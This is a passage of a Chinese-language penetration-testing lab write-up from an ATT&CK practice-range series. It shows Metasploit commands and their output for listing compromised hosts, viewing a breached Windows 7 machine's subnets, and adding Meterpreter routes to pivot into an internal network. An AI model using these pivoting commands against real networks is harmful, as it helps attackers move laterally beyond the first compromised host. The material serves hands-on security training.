 数据库相关几个常用命令的写法

![](H:\靶场\ATT&CK实战系列\学习过程\第一个\图片\step1-3.png)



之后可以利用开启了数据库快速提取缓冲区的内容

```
msf6 auxiliary(scanner/ssh/ssh_version) > hosts -c address,mac,name,os_name,os_flavor,os_sp,purpose,vuln_count,service_count

Hosts
=====

address          mac  name  os_name    os_flavor     os_sp  purpose  vuln_count  service_count
-------          ---  ----  -------    ---------     -----  -------  ----------  -------------
192.168.111.128       STU1  Windows 7  Professional  SP1    client   2           1

```



## 进入正题--内网存活探测

先使用run *get_local_subnets*命令查看已拿下的目标主机的内网IP段情况

```
meterpreter > run get_local_subnets 

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
Local subnet: 169.254.0.0/255.255.0.0
Local subnet: 192.168.5.0/255.255.255.0
Local subnet: 192.168.52.0/255.255.255.0
Local subnet: 192.168.111.0/255.255.255.0
```

网上说多网卡情况下，需要添加路由进行下一条路探测，直接在shell中进行路由操作，实战中可能有些变化

```
meterpreter > run autoroute -s 192.168.111.0 -n 255.255.255.0

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 192.168.111.0/255.255.255.0...
[+] Added route to 192.168.111.0/255.255.255.0 via 192.168.111.128
[*] Use the -p option to list all active routes

```

加完以后，我们便可以去探测111网段的主机

```
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.111.0      255.255.255.0      Session 1
```
